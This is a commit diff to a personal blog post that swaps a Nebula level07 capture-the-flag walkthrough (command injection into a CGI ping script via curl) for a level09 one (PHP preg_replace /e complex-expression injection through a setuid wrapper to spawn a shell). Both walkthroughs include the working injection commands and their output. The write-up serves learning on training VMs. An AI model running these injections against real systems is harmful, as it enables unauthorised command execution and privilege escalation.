

Before and after one commit to n33m0/n33m0.github.io, a Jekyll site: the page built from _posts/2015-04-10-expanding_of_variables.md, in a window 1280 px wide and 1400 px high, scrolled down 417 px. Shown: the whole window, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; after the commit the page ends 1456 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Nebula09

```diff
--- a/_posts/2015-04-10-expanding_of_variables.md
+++ b/_posts/2015-04-10-expanding_of_variables.md
@@ -4,65 +4,24 @@ title: "Expanding of variables"
 category: CTF, Nebula
 ---
 
->&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 07](http://exploit-exercises.com/nebula/level07) Agenda**: "The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server."
-<br />
-&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; "*It was the Perl's script, the one who swooned over the network flow.*"
+>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 09](http://exploit-exercises.com/nebula/level09) Agenda**: "There’s a C setuid wrapper for some vulnerable PHP code…"
 
 <center>
 	<img src="/images/2015-04-10-expanding_of_variables/tail.jpg">
 </center>
+<br />
+In actual fact, when PHP string is specified in double quotes, [variables](http://php.net/manual/en/language.variables.php) are [parsed](http://php.net/manual/en/language.types.string.php#language.types.string.parsing) within it. Furthermore, through the [complex](http://php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) (allows usage of complex expressions) variable expansion, could be expanded even function call.
 
-<br />
-
-As usual, started with target account's home investigation.
-{% highlight sh linenos %}
-level07@nebula:/home/flag07$ ls -la
-.........
--rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf
-
-level07@nebula:/home/flag07$ cat ./thttpd.conf | less
-
-# This file is for thttpd processes created by /etc/init.d/thttpd.
-.........
-# Specifies an alternate port number to listen on.
-port=7007
-.........
-# Specifies a directory to chdir() to at startup. This is merely a convenience
-# you could just as easily do a cd in the shell script that invokes the program.
-dir=/home/flag07
-.........
-# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
-# "/cgi-bin/*". See thttpd(8) for details.
-cgipat=**.cgi
-.........
-{% endhighlight %}
-
-It appears that we have running [thttpd](http://www.acme.com/software/thttpd/thttpd_man.html) server on 7007 port with specified config from flag07 home folder (which in turns will execute all *.cgi scripts from there).
+The available script's options shows that we can pass two arguments([$argv](http://php.net/manual/en/reserved.variables.argv.php)) into "_markup_" function. "_$filename_" is used to specify file argument of [file_get_contents](http://php.net/manual/en/function.file-get-contents.php) function. The second one, "_$use_me_"(the name says it all) is never used, so let's fix it through passing to the [print](http://php.net/manual/en/function.print.php).
 
 {% highlight sh linenos %}
-level07@nebula:/home/flag07$ ps aux | grep http
-flag07 1187 ......... /usr/sbin/thttpd -C /home/flag07/thttpd.conf
-flag16 1189 ......... /usr/sbin/thttpd -C /home/flag16/thttpd.conf
-{% endhighlight %}
-
-Indeed! And not the only one =).
-
-From "*[index.cgi](https://exploit-exercises.com/nebula/level07/)*" source we can see that it takes value of "*Host*" argument, passes it as input to ping utility and print out the result. So let's make request with [curl](http://linux.die.net/man/1/curl) tool and use some kind of [separator](/ctf, nebula/2015/02/02/arbitrary_program_execution/) to inject the favour "*getflag*" command. Don't forget about [URL encoding](https://en.wikipedia.org/wiki/Percent-encoding).
-
-{% highlight sh linenos %}
-$curl --data-urlencode "Host=localhost;getflag" 192.168.1.3:7007/index.cgi
-<html><head><title>Ping results</title></head><body><pre>PING localhost
-(127.0.0.1) 56(84) bytes of data.
-64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=17.3 ms
-64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=17.2 ms
-64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=39.0 ms
-
---- localhost ping statistics ---
-3 packets transmitted, 3 received, 0% packet loss, time 2012ms
-rtt min/avg/max/mdev = 17.251/24.558/39.073/10.263 ms
+level09@nebula:~$ cat > /tmp/mail
+[email {$use_me(sh)}]
+level09@nebula:~$ /home/flag09/flag09 /tmp/mail system
+PHP Notice:  Use of undefined constant sh - assumed 'sh' in
+/home/flag09/flag09.php(15) : regexp code on line 1
+sh-4.2$ getflag
 You have successfully executed getflag on a target account
 {% endhighlight %}
 
-Line #11, indicates the end of destination point. BTW "*192.168.1.3*" is address of Nebula virtual machine in my local network (use [ifconfig](http://linux.die.net/man/8/ifconfig) to find out for your case).
-
-P.S. You could also try to deal with request from web browser or [wget](http://stackoverflow.com/questions/9830242/what-is-o-option-means-for-wget) [util](http://linux.die.net/man/1/wget) + some online [url encoder](http://www.url-encode-decode.com/) (or at least [wiki](https://en.wikipedia.org/wiki/Percent-encoding) percent-encoding of reserved characters table) as helper for clear argument performing.
+A few more words to bring some light to the level [source](http://exploit-exercises.com/nebula/level09). We can see that [preg_replace](http://php.net/manual/en/function.preg-replace.php) function is using the [PREG_REPLACE_EVAL](http://php.net/manual/en/reference.pcre.pattern.modifiers.php)("e") pattern modifier which in our case allows the substitution of [backreference](http://php.net/manual/en/regexp.reference.back-references.php) (to the second captured subpattern "_(.*)_") in the replacement string, evaluates it as PHP code ("_spam_" function), and uses the result for replacing the search string. Nevertheless, as mentioned above, the trick by itself happens when the string gets to the output. That's it!
```
Also changed, not shown: _posts/2015-04-04-world_readable_files_strike_again.md (+1 -1 lines).
